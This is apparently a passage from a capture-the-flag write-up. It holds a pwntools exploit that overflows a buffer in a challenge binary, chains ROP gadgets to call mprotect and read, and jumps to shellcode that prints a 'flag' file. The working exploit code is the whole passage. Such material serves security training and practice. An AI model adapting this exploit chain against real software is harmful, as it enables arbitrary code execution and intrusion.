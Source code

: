 ```python
SEND(io, segment) 

### content size bytes

# 0x00000000004006a6 : pop rdi ; ret
# 0x000000000045c139 : pop rdx ; pop rsi ; ret
# 0x00000000004005af : pop rax ; ret
# 0x00000000004859c5 : syscall ; ret


# mprotect(buf, 0x1000, 4|2|1)

buf_addr = 0x6DB4A0

rop = flat(0x00000000004006a6, buf_addr&(~0xfff),
        0x000000000045c139, 7, 0x1000,
        0x00000000004005af, 10,
        0x00000000004859c5)

# read(0, buf, 0x100)

rop += flat(0x00000000004006a6, 0,
        0x000000000045c139, 0x100, buf_addr,
        0x00000000004005af, 0,
        0x00000000004859c5)

# ret2shellcode

rop += p64(buf_addr)

content = b'a'*0x848 + rop
SEND(io, content)



shellcode = asm(shellcraft.open("flag"))
shellcode += asm(shellcraft.read('rax', buf_addr+0x200, 0x20))
shellcode += asm(shellcraft.write(1, buf_addr+0x200, 0x20))

io.sendline(shellcode)

# 0x7ffdbdb52b80
# return at 0x7ffdbdb533c8


io.interactive()

```

## step2

